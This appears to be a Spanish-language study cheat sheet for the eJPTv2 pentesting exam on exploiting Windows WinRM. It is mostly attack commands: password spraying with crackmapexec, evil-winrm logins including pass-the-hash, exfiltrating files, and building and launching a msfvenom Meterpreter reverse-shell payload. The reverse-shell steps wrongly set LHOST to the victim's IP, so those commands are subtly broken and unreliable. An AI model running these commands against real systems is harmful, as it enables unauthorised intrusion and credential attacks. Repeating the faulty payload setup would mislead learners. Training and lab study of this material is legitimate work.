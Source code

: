 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```



# WinRM 🌐

Windows Remote Management (WinRM) es un servicio de administración remota que utiliza el protocolo WS-Management. Opera por defecto en los puertos 5985 (HTTP) y 5986 (HTTPS).

## Reconocimiento inicial

- Escaneo de puertos

```bash
nmap -p5985,5986 -sV <ip_victima>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip_victima>
```


- Verificación del servicio WinRM

```bash
crackmapexec winrm <ip_victima> -u administrator -p <password_wordlists.txt> # wordlists recomendado: usr/share/metasploit-framework/data/wordlists/unix_paswords.txt

crackmapexec winrm <ip_victima> -u <username> -p <password> -x "<comando_a_ejecutar>" # Cuando tengamos unas credenciales válidas
```

## Verificación del servicio

Herramientas principales para verificar la accesibilidad del servicio WinRM:

- Evil-WinRM: Herramienta especializada para conexiones WinRM

- CrackMapExec: Para verificar credenciales y acceso

- Impacket-WmiExec: Para ejecutar comandos remotos

## Explotación 

- Usando Evil-WinRM

```bash
# Conexión básica
evil-winrm -i <ip_victima> -u<username> -p <password>

# Conexión con hash NT
evil-winrm -i <ip_victima> -u<username> -H <NT-hash>

# Conexión SSL
evil-winrm -i <ip_victima> -u<username> -p <password> -S
```

- Usando CrackMapExec

```bash
# Prueba de credenciales
crackmapexec winrm <ip_victima> -u <username> -p <password>

# Password spraying
crackmapexec winrm <ip_victima> -u <username_wordlists> -p <password_wordlists.txt>
```

## Post-explotación

Una vez dentro del sistema, algunas acciones comunes:

- Enumeración de usuarios y grupos locales

- Búsqueda de archivos sensibles

- Elevación de privilegios

- Movimiento lateral


## Comandos útiles en sesión Evil-WinRM

```bash
# Enumeración básica
whoami /all
net user
systeminfo

# Carga de archivos
upload local_file.exe C:\\Windows\\Temp\\
download C:\\sensitive_file.txt

# Ejecución de scripts PowerShell
Invoke-PowerShellScript.ps1
```

## Obtener una sesión Meterpreter a través de WinRM

Para obtener una sesión Meterpreter usando WinRM, podemos seguir estos pasos:

- Configuración del payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip_victima> LPORT=4444 -f exe -o <nombre_salida.exe>
```

- Configurar el handler en Metasploit

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <ip_victima>
set LPORT 4444
run
```

- Subir y ejecutar el payload usando Evil-WinRM

```bash
# Conectar a WinRM
evil-winrm -i <ip_victima> -u <username> -p <password>

# En la sesión de Evil-WinRM
upload reverse.exe C:\\\\Windows\\\\Temp\\\\reverse.exe
start C:\\\\Windows\\\\Temp\\\\reverse.exe
```

- Comandos útiles en la sesión Meterpreter

```bash
getuid                    # Identificar usuario actual
sysinfo                   # Información del sistema
shell                     # Obtener shell cmd
load powershell          # Cargar extensión PowerShell
ps                       # Listar procesos
migrate <PID>            # Migrar a otro proceso
```

Este método combina WinRM para el acceso inicial y Meterpreter para post-explotación más avanzada, proporcionando mayor flexibilidad en las operaciones posteriores.

----

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
